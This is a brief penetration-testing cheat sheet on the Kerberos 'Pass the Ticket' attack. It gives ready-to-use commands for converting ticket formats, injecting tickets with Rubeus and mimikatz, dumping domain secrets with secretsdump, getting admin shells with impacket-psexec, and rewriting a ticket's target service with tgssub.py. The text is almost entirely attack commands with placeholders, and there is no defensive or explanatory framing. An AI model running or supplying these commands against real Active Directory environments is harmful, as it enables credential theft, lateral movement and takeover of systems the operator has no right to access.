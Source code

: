 # Pass the Ticket (ccache / kirbi)

## Tools: mimikatz , rubeus , impacket , ticketConverter.py , secretsdump , tgssub.py

# Convert format (Use this depending on use case)

 - ticketConverter.py KIRBI||CCACHE CCACHE||KIRBI (Convert tickets to the appropriate format)

#### 1) Rubeus

 - Rubeus.exe ptt /ticket:TICKET

#### 2) Mimikatz

 - mimikatz kerberos::ptc "TICKET"

#### 3) secretsdump

 - [proxychains] secretsdump.py -k 'DOMAIN'/'USER'@'IP' (See DC Sync)

#### 4) impacket tools (Grant System/Admin access)

 - export KRB5CCNAME=/path/to/TICKET.CCACHE

 - impacket-psexec -k -no-pass USER@IP (Example)

#### 5) tgssub.py 

### Modify SPN

 - tgssub.py -in TICKET.CCACHE -out NEW_TICKET.CCACHE -altservice "SERVICE/TARGET" (Pass the Ticket)
